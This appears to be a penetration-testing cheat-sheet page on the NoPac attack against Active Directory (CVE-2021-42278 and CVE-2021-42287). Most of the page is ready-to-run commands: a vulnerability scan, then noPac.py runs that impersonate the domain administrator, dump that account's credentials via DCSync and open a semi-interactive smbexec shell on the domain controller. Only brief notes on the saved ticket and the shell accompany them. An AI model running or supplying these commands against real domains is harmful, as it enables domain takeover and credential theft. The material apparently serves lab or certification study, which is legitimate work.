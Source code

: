 ```yaml
---
layout: app
title: "Active Directory"
tags: ["NoPac","DCSync]

---
```


# NoPac

## CVE's

* CVE-2021-42278: Bypass vulnerability with the Security Account Manager (SAM).
* CVE-2021-42287: Vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS.

[noPac Tool](https://github.com/Ridter/noPac)


### scan
```bash
python scanner.py crtp.local/username:password -dc-ip 192.168.85.100 -use-ldap
```

### Exploit

```bash
sudo python3 noPac.py crtp.LOCAL/username:password -dc-ip [address]  -dc-host DC01 --impersonate administrator -use-ldap -dump -just-dc-user crtp/administrator
```

> We will notice that a semi-interactive shell session is established with the target using smbexec.py. Keep in mind with smbexec shells we will need to use exact paths instead of navigating the directory structure using cd.

It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run. We can use ls to confirm

### Using noPac to DCSync the Built-in Administrator Account

```bash
sudo python3 noPac.py crtp.LOCAL/username:password -dc-ip IPAddress  -dc-host HOST-NAME --impersonate administrator -use-ldap -dump -just-dc-user crtp/administrator
```
